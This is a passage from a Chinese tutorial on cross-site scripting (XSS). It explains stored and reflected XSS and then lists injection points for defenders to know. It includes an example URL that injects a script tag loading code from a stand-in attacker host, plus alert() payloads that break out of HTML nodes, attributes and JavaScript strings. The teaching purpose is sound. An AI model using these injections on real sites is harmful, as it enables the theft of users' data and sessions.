 **总结：存储型XSS将恶意代码存储进数据库，用户加载恶意脚本时，恶意脚本将会从服务器上传回并执行**

### 反射型XSS原理

>  当用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。Web服务器将注入脚本，比如一个错误信息，搜索结果等 返回到用户的浏览器上。浏览器会执行这段脚本，因为，它认为这个响应来自可信任的服务器。

下面看一个例子：

```
// url
http://example.com?search=value'<script src="http://eval.com"></script>'

// html
<input value=window.location.search>

// 步骤
1、网页内嵌值由参数直接传入
2、恶意攻击者将参数包含script标签，加载恶意脚本
3、恶意脚本在网页中生效，盗取用户信息
```

**总结：反射型XSS是通过链接参数或表单，通过点击链接、注入恶意脚本，网页加载后，恶意脚本将会执行**

## XSS防御

### XSS注入点

在防御之前应该了解XSS有哪些注入点，其中包括HTML节点、HTML属性、JavaScript代码以及富文本

#### HTML节点

html节点包含用户输入内容，节点内容包含脚本

```
// HTML
<div>${content}</div>
// 用户输入，将content内容替换为<script>alert(1)</script>
<div><script>alert(1)</script></div>
```

#### HTML属性

```
// HTML
<img src="${src}">
// 用户输入，将src替换为 2" onerror="alert(2)
<img src="2" onerror="alert(2)">
```

#### JavaScript代码

```
// JS
<script>
	var data = "${data}"
</script>
// 用户输入，将data替换为 hello";alert(3); var a = "
<script>
	var data = "hello"; alert(3);var a = ""
</script>
```

